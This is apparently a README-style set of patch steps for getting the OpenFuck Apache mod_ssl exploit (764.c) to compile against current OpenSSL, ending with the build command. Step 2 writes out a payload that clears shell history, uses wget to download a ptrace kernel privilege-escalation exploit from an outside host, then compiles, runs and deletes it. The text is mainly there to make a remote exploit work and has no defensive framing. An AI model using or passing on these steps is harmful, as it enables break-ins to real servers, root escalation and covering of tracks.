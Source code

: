 # some solution for openfuck errors. <br>
  1) Add this below line 24 (the last #include): <br>
    <pre> <code>
    #include <openssl/rc4.h>
    #include <openssl/md5.h>
    #define SSL2_MT_ERROR 0
    #define SSL2_MT_CLIENT_FINISHED 3
    #define SSL2_MT_SERVER_HELLO 4
    #define SSL2_MT_SERVER_VERIFY 5
    #define SSL2_MT_SERVER_FINISHED 6
    #define SSL2_MAX_CONNECTION_ID_LENGTH 16
    </code> </pre>

  2) Replace COMMAND2 on (now) line 672: <br>
    <code>#define COMMAND2 "unset HISTFILE; cd /tmp; wget https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; \n"</code>


  3) Update declaration of variables Line 961, change : <code>unsigned char *p, *end;</code> <br>
    By adding const : <code>const unsigned char *p, *end;</code>
  
  4) Replace the if on (now) line 1078 with:
  if (EVP_PKEY_get1_RSA(pkey) == NULL) {

  5) Replace the encrypted_key_length code on (now) line 1084 with: ,br>
    <code>encrypted_key_length = RSA_public_encrypt(RC4_KEY_LENGTH, ssl->master_key, &buf[10], EVP_PKEY_get1_RSA(pkey), RSA_PKCS1_PADDING);</code>
  6) Install libssl-dev (if not already installed): <br>
    <code>apt-get install libssl-dev</code>
  7) Compile!
    <code> gcc -o OpenFuck 764.c -lcrypto </code>
